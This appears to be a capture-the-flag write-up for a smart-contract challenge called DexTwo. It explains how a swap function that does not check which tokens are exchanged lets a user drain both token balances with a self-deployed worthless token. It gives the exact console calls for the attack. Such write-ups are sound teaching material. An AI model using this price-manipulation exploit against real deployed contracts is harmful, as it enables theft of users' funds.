 # Requirements

- The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

- You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

# Attack explanation

The vulnerability here arises from swap method which does not check that the swap is necessarily between token1 and token2. We'll exploit this by deploying another token and exchanging it for token 1 and token 2 in such wat to drain both from DextTwo. We'll need 300 from the other token and approve the contract to use them on our behalf.

We could solve the challenge by making the next calls:

- Send 100 EVL tokens so ratio between EVL and t1 is 1:1.

- Get token addresses:

```
m = "0xA1B6D558ea8ffb6dD689c0917470fb44C97E2aF5" // Malicious Token deployed
t1 = await contract.token1()
t2 = await contract.token2()
```

- Drain t1 with 100 tokens (ratio 1:1):

```
await contract.swap(m, t1, 100)
```

- Drain t2 with 200 tokens (ratio 1:2).

```
await contract.swap(m, t2, 200)
```
